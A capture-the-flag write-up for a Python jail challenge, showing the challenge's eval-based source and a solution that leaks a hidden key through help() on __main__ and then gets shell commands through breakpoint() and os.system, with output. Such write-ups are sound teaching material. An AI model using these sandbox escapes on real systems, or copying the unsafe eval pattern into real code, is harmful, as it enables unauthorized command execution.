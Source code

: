 # eMbrEy0 LEaK

Categories: Misc

Description:
> D1d u like python,Their are some easy trick.Have fun!!!!
> 
>author: crazyman @ r3kapig
>
>[chal](src-public/service.py)
> 
> Private files not shared: [flag](src-private/flag), [chal](src-private/service.py)

**Tags:** python jail, `help()` leak, `breakpoint()`

## Takeaways

- You can use `help()` to leak data, file paths, source code, execute python code, or even execute system commands as it is piped through the `more` or `less` programs.
- `help()` and `breakpoint()` to get RCE.

## Solution

The source code of the challenge that we are given is pretty minimal:

```python
fake_key_var_in_the_local_but_real_in_the_remote = "[DELETED]"

def gUeST():
    print("Welcome to the gUeST func")
    print("It's time to input your command:")
    code = input("Command >")
    if(len(code)>6):
        return print("!!!!! TOO long!you're hacker!")
    try:
        print(eval(code))
    except Exception:
        return print("--- Exception: ---")

def BacKd0oR():
    print("Welcome to the B@cKd0oR func")
    print("Please enter the admin key:")
    key = input("key >")
    if(key == fake_key_var_in_the_local_but_real_in_the_remote):
        code = input("Command >")
        if(len(code)>12):
            return print("too long!you're hacker!")
        try:
            print(eval(code))
        except:
            pass
    else:
        print("Nooo!!!!")

WELCOME = '''<long prompt>'''

print(WELCOME)

print("Now the program has two functions")
print("can you use B@cKd0oR")
print("1.gUeST")
print("2.B@cKd0oR")
input_data = input("Choice > ")
if(input_data == "1"):
    gUeST()
    exit(0)
elif(input_data == "2"):
    BacKd0oR()
    exit(0)
else:
    print("not found the choice")
    exit(0)
```

As we can see, this is a two-stage challenge. In the fist stage we are allowed only 6 characters of input, while in the second stage only up to 12 characters of input. Let's try to brainstorm some ideas of short payloads that we can send:

```python
# https://docs.python.org/3/library/functions.html
input()
help()
vars()
locals()
globals()
breakpoint()
dir()
eval()
exec()
open()
[]
{}
__XX__() # builtins
__name__
__main__
```

As we can see, most of the above payloads are more than 6 characters. However, two payloads stand out. `help()` is exactly 6 characters and gives us an interesting prompt, and `breakpoint()` is exactly 12 characters.

### Stage 1

We will attempt to use the [help](https://docs.python.org/3/library/functions.html#help) built-in in order to leak the `key` and unlock stage 2. When we run `help()`, we are presented with the following terminal:

![help.png](resources/help.png)

The help utility generally gives us the `__doc__` of whatever we provide it, lists classes of modules, functions, etc. One thing to notice here is that when we request information for, e.g. a module, we are dropped into the `less` utility program. After some exploration and going through the help information in `less`, we see that it allows arbitrary command execution:

![less.png](resources/less.png)

When we try the `!whoami` command in `less`, we get no response. Probably the server has a modified version of `less` as we can exploit this functionality locally, but not on the remote.

Back to the `help()` python prompt now. In python, we know that [`__main__`](https://docs.python.org/3/library/__main__.html) is a module and corresponds to the challenge's code (top-level code environment). Let's try that:

```log
help> __main__

Help on module __main__:

NAME
    __main__

FUNCTIONS
    BacKd0oR()

    gUeST()

DATA
    WELCOME = '      \n       __  __ _          ______       ___...       ...
    __annotations__ = {}
    input_data = '1'
    key_a16379411c7ea222 = 'd3967f4666b31fb2b415abca64f6b18c'

FILE
    ~/ctfs/csaw22-finals/misc/embryo-leak/src-private/service.py

(END)
```

As we can see from above, `help(__main__)` actually returns statically initialized data and variable names. So, the value to enter stage2, is `d3967f4666b31fb2b415abca64f6b18c`.

(One side note here, is that if you pass in the prompt `help> service.py`, then the file will start executing again.)

### Stage 2

For stage 2, we already know that we can use `breakpoint()` as it is exactly 12 characters long:

```bash
Now the program has two functions
can you use B@cKd0oR
1.gUeST
2.B@cKd0oR
Choice > 2
Welcome to the B@cKd0oR func
Please enter the admin key:
key >d3967f4666b31fb2b415abca64f6b18c
Command >breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) import os
(Pdb) os.system('ls')
flag  __pycache__  service.py
0
(Pdb) os.system('cat flag')
flag{y0U_f1NiSHeD_EmpR3Yo_lAeK_Ch@L1EnGe_aNd_uSE_hE1p_T0_Le@k_ThE_vAr_272763f8}00
(Pdb) exit
```

So, we get the flag! `flag{y0U_f1NiSHeD_EmpR3Yo_lAeK_Ch@L1EnGe_aNd_uSE_hE1p_T0_Le@k_ThE_vAr_272763f8}`
